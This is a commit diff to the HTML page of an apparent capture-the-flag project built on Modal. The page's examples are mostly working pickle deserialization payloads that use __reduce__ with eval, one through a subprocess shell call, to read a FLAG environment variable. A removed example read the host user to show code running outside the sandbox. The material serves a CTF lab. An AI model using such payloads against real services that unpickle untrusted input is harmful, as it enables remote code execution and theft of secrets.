

Before and after one commit to yeldarby/modal-ctf, a plain HTML site: page public/index.html in a window 1280 px wide. Shown: the part 321-1294 px from the top of the page, without its empty margins (108-1171 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Fully working

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -23,37 +23,31 @@
 
     <div class="section">
         <h2>Example: Simple Code Execution</h2>
-        <p>Try running a simple Python script to verify the code is executing remotely in Modal:</p>
+        <p>Try running simple Python code to verify it's executing remotely in Modal:</p>
         <div class="code-block">curl -X POST [YOUR_URL]/execute --data-binary @- &lt;&lt;'EOF'
-f"2+2={2+2}"
+# Outputs gvisor when running in the sandbox
+import os
+f"MODAL_FUNCTION_RUNTIME: {os.environ.get('MODAL_FUNCTION_RUNTIME', 'not set')}"
 EOF</div>
     </div>
 
     <div class="section">
         <h2>Example: Pickle Deserialization Attack</h2>
         <p>Here's how to exploit pickle deserialization to capture the flag:</p>
+        <p><strong>Example 1:</strong></p>
         <div class="code-block">curl -X POST [YOUR_URL]/execute --data-binary @- &lt;&lt;'EOF'
 class FlagExploit:
     def __reduce__(self):
         import os
-        return (eval, ("__import__('os').environ.get('FLAG', 'No flag found')",))
+        return (eval, ("f\"The flag is: {__import__('os').environ.get('FLAG', 'No flag')}\"",))
 
 FlagExploit()
 EOF</div>
+        <p><strong>Example 2:</strong></p>
+        <div class="code-block">curl -X POST [YOUR_URL]/execute --data-binary @- &lt;&lt;'EOF'
+type('E', (), {'__reduce__': lambda s: (eval, ("__import__('subprocess').check_output(['sh', '-c', 'echo -n \"The flag is: $FLAG\"']).decode()",))})()
+EOF</div>
         <p>The server will return pretty-printed JSON with the flag in the "result" field.</p>
-    </div>
-
-    <div class="section">
-        <h2>Example: Host Username Verification</h2>
-        <p>This exploit will show the $USER environment variable from the host system (should show 'ctfuser' on the Docker host, proving the exploit runs outside Modal):</p>
-        <div class="code-block">curl -X POST [YOUR_URL]/execute --data-binary @- &lt;&lt;'EOF'
-class UserExploit:
-    def __reduce__(self):
-        import os
-        return (eval, ("__import__('os').environ.get('USER', 'unknown')",))
-
-UserExploit()
-EOF</div>
     </div>
 
     <div class="section">
@@ -72,7 +66,7 @@
         <p>Request body: Raw Python code (plain text, not JSON)</p>
         <p>Response: Pretty-printed JSON with execution results</p>
         <p>Important: Use <code>--data-binary</code> to preserve newlines in multiline code</p>
-        <div class="code-block">curl -X POST [YOUR_URL]/execute --data-binary 'print("Hello"); 42'</div>
+        <div class="code-block">curl -X POST [YOUR_URL]/execute --data-binary 'print("Hello")'</div>
     </div>
 </body>
 </html>
```
Also changed, not shown: 5 other files.
